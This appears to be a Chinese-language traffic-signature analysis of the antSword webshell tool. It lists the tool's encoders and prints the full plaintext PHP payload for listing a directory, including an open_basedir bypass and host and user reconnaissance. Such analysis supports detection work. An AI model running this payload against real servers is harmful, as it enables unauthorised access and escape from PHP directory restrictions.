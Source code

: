 # antSword 蚁剑 流量特征分析

蚁剑原生支持以下编解码器：

编码器：

- default
- base64
- chr
- chr16
- rot13

解码器：

- default
- base64
- rot13

不同的编解码器组合，会导致 Webshell 的网络流量发生变化

:::info 说明
下述的流量数据，默认均已进行过一次 URL Decode 处理，并加以php format格式化处理，以便于排除掉 URL Encode 对流量可读性的影响
:::

## 编码器：default

default 模式下，蚁剑将直接通过明文的形式直接传输 Webshell 数据，例如列出当前目录：

```shell
@set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split("/;|:/", $opdir);
    @array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach ($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item . "/.6e00791381";
        @mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        @chdir($tmdir);
        @ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {
            @chdir("..");
        };
        @ini_set("open_basedir", "/");
        @rmdir($tmdir);
        break;
    };
};;
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "3359" . "dd1f7";
    echo @asenc($output);
    echo "d9aff" . "acf845";
}
ob_start();
try {
    $D = dirname($_SERVER["SCRIPT_FILENAME"]);
    if ($D == "") $D = dirname($_SERVER["PATH_TRANSLATED"]);
    $R = "{$D}	";
    if (substr($D, 0, 1) != "/") {
        foreach (range("C", "Z") as $L) if (is_dir("{$L}:")) $R .= "{$L}:";
    } else {
        $R .= "/";
    }
    $R .= "	";
    $u = (function_exists("posix_getegid")) ? @posix_getpwuid(@posix_geteuid()) : "";
    $s = ($u) ? $u["name"] : @get_current_user();
    $R .= php_uname();
    $R .= "	{$s}";
    echo $R;;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
```

test
